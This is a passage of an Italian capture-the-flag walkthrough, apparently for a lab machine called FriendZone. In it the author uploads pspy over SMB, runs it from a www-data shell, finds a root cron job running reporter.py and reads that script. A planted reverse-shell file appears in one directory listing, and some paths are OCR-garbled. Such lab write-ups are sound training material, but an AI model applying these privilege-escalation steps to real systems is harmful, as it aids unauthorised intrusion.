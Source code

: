 ```bash

```

Copiamo pspy nella nostra cartella /friendzone e con smbclient la carichiamo sempre sulla condivisione Development

```bash
smb: \> put pspy64 
putting file pspy as \pspy64 (1037.6 kb/s) (average 982.3 kb/s)

```

Dalla nostra shell gli diamo i privilegi d'esecuzione ma sembra che non abbiamo i permessi per farlo 

```bash
www-data@FriendZone:/$ cd etc/Development/
www-data@FriendZone:/etc/Development$ ls
pspy  revers.php  test.php
www-data@FriendZone:/etc/Development$ chmod +x pspy 
chmod: changing permissions of 'pspy': Operation not permitted
www-data@FriendZone:/etc/Development$ ls -la
total 4644
drwxrwxrwx  2 root   root       4096 Jun  7 14:19 .
drwxr-xr-x 89 root   root       4096 Sep 13  2022 ..
-rwxrw-rw-  1 nobody nogroup 4737737 Jun  7 14:19 pspy
-rwxrw-rw-  1 nobody nogroup     100 Jun  7 13:58 revers.php
-rwxrw-rw-  1 nobody nogroup      31 Jun  7 13:48 test.php
```

Lo copiamo nella cartella /tmp e gli forniamo i privilegi di esecuzione

```
www-data@FriendZone:/etc/Development$ cp pspy /tmp/   
www-data@FriendZone:/etc/Development$ cd /tmp/
www-data@FriendZone:/tmp$ ls
f  pspy
www-data@FriendZone:/tmp$ +x pspy 
+x: command not found
www-data@FriendZone:/tmp$ chmod +x pspy
```

Dopo aver esegutio pspy otteniamo il seguente output
```bash
2023/06/09 00:06:15 CMD: UID=0     PID=1      | /sbin/init splash 
2023/06/09 00:08:00 CMD: UID=0     PID=1080   | /usr/sbin/smbd --foreground --no-process-group 
2023/06/09 00:08:01 CMD: UID=0     PID=1082   | /bin/systemd-tmpfiles --clean 
2023/06/09 00:08:01 CMD: UID=0     PID=1081   | /usr/sbin/CRON -f 
2023/06/09 00:08:01 CMD: UID=0     PID=1084   | /usr/bin/python /opt/server_admin/reporter.py 
2023/06/09 00:08:01 CMD: UID=0     PID=1083   | /bin/sh -c /opt/server_admin/reporter.py
```

andiamo a vedere il file "reporter..py"
```python
friend@FriendZone:cat /opt/server:_admin/reporter.py_

#!/usr/bin/python 
import os 
to_address = "admin1@friendzone.com" 
from_address = "admin2@friendzone.com" 
print "[+] Trying to send email to %s"%to_address 

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"''' 

#os.system(command) # I need to edit the script later 
# Sam ~ python developer
```